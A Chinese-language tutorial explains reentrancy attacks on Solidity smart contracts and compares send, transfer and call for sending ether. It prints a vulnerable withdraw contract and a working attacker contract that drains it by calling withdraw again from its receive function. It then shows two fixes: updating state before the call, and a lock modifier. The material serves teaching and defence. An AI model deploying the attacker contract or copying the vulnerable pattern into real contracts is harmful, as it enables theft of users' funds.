

# 重入攻击

Solidity支持在智能合约中以三种方式传输ether，分别是send(), transfer(), call.value()。这三种方式的不同之处在于两点，一是它们使用的gas数量不同，如果转账的接收方是一个智能合约，接收方智能合约还可以执行其他逻辑或调用其他函数，可能还会消耗额外的gas，二是它们处理异常的方式不同。send()和call().value()在失败时仅返回false，但是transfer()将抛出一个异常，该异常会将状态回滚到该函数调用之前的状态。这三种方式的总结如下



因此，send()函数应该始终位于require语句中，通知我们执行失败的情况，也就是说，执行失败之后，通过require语句回滚。

当使用transfer()时，不需要使用require语句，我们都可以知道执行失败，因为会抛出异常并回滚状态。

最后，对于call()，和send()一样，如果发生错误，它仍然返回false，也需要对其使用require语句。call()与send()和transfer()的主要区别是可以通过.call{value: _amount, gas: gasValue}(“”)设置gas限制。如果接收ether的智能合约的payable函数要执行复杂的逻辑，需要消耗大量的gas，那么限制gas是必要的。

一个合约最多可以有一个receive函数，使用receive() external payable { ... }声明(不带function关键字)。这个函数不能有参数，不能有任何返回，必须具有external可见性，且必须用payable修饰，表示可以接收ether。在使用空的calldata调用一个合约时执行合约的receive函数。这是在普通ether传输(例如通过.send()或.transfer())时接收方合约执行的函数。如果不存在receive函数，但存在一个payable fallback函数，则fallback函数将在普通ether传输时被调用。如果既没有receive函数，也没有payable fallback函数，合约就不能通过常规交易接收ether，并将抛出一个异常。

在最坏的情况下，当使用send()或transfer()发送ether时，接收方合约的fallback函数只能依赖于2300可用的gas，除了基本的日志记录外，几乎没有多余的gas来执行其他操作。以下操作将消耗超过2300的gas

- 向storage中写数据

- 创建一个合约

- 调用消耗大量gas的external函数

- 发送ether

但是近年来，使用call()函数而非send()和transfer()来传输ether已经成为一种规范，原因如下:任何使用transfer()或send()的智能合约都通过转移2300 gas给接收方合约而严重依赖于一个固定的gas成本。这个固定的2300 gas成本可能会随着未来的硬分叉而改变。这篇博客更详细地介绍了为什么要用call而不是send或transfer：

[https://consensys.net/diligence/blog/2019/09/stop-using-soliditys-transfer-now](https://consensys.net/diligence/blog/2019/09/stop-using-soliditys-transfer-now)

上述的整个背景对于理解重入攻击是必要的。以下列合约为例

```
// SPDX-License-Identifier: Unlicensed
pragma solidity ^0.6.10;
contract EtherRentrancy {
    
    mapping (address => uint256) public balances;
    address public owner;
    
    constructor() public {
        owner = msg.sender;
    }
    
    function deposit() public payable{
        balances[msg.sender] += msg.value;
    }
    
    
    function withdraw(uint _amount) public {
        require (balances[msg.sender] >= _amount, "Insufficient funds");
        
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send funds");
        
        balances[msg.sender] -= _amount;
    }
    
    function getBalance() public view returns(uint){
        return address(this).balance;
        
    }
    
}
```

在本合约中，任何有效的以太坊地址都可以通过deposit函数存入ether，也可以通过withdraw函数提取ether。

下面这个合约就是黑客用来从上述合约中抽走所有资金的合约。

```
// SPDX-License-Identifier: Unlicensed
pragma solidity ^0.6.10;

import "./EtherRentrancy.sol";

contract HelloBreaksLoose{
    EtherRentrancy etherrentrancy;
    
    constructor(address _etherrentrancy) public {
        etherrentrancy = EtherRentrancy(_etherrentrancy);
    }
    receive() external payable {
        if (etherrentrancy.getBalance() >= 1 ether){
            etherrentrancy.withdraw(1 ether);
            
        }
    }
    function attack() external payable{
        require(msg.value >= 1 ether);
        etherrentrancy.deposit{value: msg.value}();
        etherrentrancy.withdraw(1 ether);
        
        
    }
    function getBalance() public view returns(uint){
        return address(this).balance;
        
    }
}
```

该攻击合约的构造函数用EtherRentrancy合约的地址初始化。

以下是调用此合约函数attack()函数时的执行步骤：

1. 调用attack()

2. 调用deposit()函数往EtherRentrancy中存入1 ether

3. 调用EtherRentrancy合约的withdraw()函数

4. withdraw()函数反过来又调用HelloBreaksLoose的receive函数

5. HelloBreaksLoose的receive函数会再次调用EtherRentrancy合约的withdraw()函数

最后两个步骤-步骤4和步骤5-将循环运行，直到EtherRentrancy合约的余额小于1 ether。

有两种方法可以阻止这种攻击:

1. 修改withdraw函数:在从合约进行任何external调用之前更新状态变量，也就是说，更新状态变量在前，调用call()在后。

```
// SPDX-License-Identifier: Unlicensed
pragma solidity ^0.6.10;
contract EtherRentrancy {
    
    mapping (address => uint256) public balances;
    address public owner;
    
    constructor() public {
        owner = msg.sender;
    }
    
    function deposit() public payable{
        balances[msg.sender] += msg.value;
    }
    
    
    function withdraw(uint _amount) public {
        require (balances[msg.sender] >= _amount, "Insufficient f unds");
        // 现在对状态变量balances的更新发生在call调用之前，攻击者将无法提取超过他/她自己存入的资金。
		// 后续对该函数的调用将失败，因为攻击者（存款人）将没有资金。
        balances[msg.sender] -= _amount;
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send funds");
    }
    
    function getBalance() public view returns(uint){
        return address(this).balance;
        
    }
    
}
```

2. 使用modifier blockRentrancy:这个办法是在合约的任何函数在执行时锁定合约，这样一次只能执行合约中的一个函数。当HelloBreaksLoose调用EtherRentrancy合约的withdraw()函数后，withdraw()函数反过来又调用HelloBreaksLoose的receive函数，但HelloBreaksLoose的receive函数没法再次调用EtherRentrancy合约的withdraw()函数，因为合约已经被加锁了，EtherRentrancy合约的withdraw()函数不能重入，所以攻击不能成功。具体代码如下：

```
// SPDX-License-Identifier: Unlicensed
pragma solidity ^0.6.10;
contract EtherRentrancy {
    bool internal locked; // 只有合约能够改变这个变量
    modifier blockRentrancy {
        require(!locked, "Contract is locked");
        locked = true;
         _;
        locked = false; // 在函数执行结束之后解锁
    }
    
    mapping (address => uint256) public balances;
    address public owner;
    
    constructor() public {
        owner = msg.sender;
    }
    
    function deposit() public payable{
        balances[msg.sender] += msg.value;
    }
    
    
    function withdraw(uint _amount) public blockRentrancy {
        require (balances[msg.sender] >= _amount, "Insufficient funds");
        
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Failed to send funds");
        
        balances[msg.sender] -= _amount;
    }
    
    function getBalance() public view returns(uint){
        return address(this).balance;
        
    }
    
}
```


